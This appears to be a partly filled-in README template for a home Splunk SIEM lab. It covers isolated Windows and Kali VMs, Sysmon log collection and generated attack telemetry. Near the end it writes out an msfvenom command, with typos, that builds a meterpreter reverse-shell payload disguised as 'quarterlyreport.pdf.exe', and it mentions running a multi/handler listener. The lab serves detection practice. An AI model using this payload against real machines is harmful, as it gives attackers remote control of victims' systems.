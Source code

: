 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VM's, One being Windows and the other being Kali Linux, with the network adapter set to the Internal Network setting while making both VM IP's static to the same network, I selected this network scheme for security purposes because I do not want these VM's routing to the internet while still being able to communicate with the other. 
The IP's in this lab are: Windows box - 192.168.33.2, Kali box - 192.168.33.3 
<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />
Ref 1: Virtual Box Settings

To set up our blue team environment, we will be configuring Sysmon on the endpoint to gather logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to our directory, and running the command ./sysmon64.exe -i sysmonconfig.xml
Installing Sysmon will enhance our ability to capture system events (Since I don't want to expose these VMs to the internet, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file into the box. 

SPLUNK SETUP


KALI SETUP

Created Malware payload msfvenmo -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe quarterlyreport.pdf.exe

ran multi/handler on msf exploit 
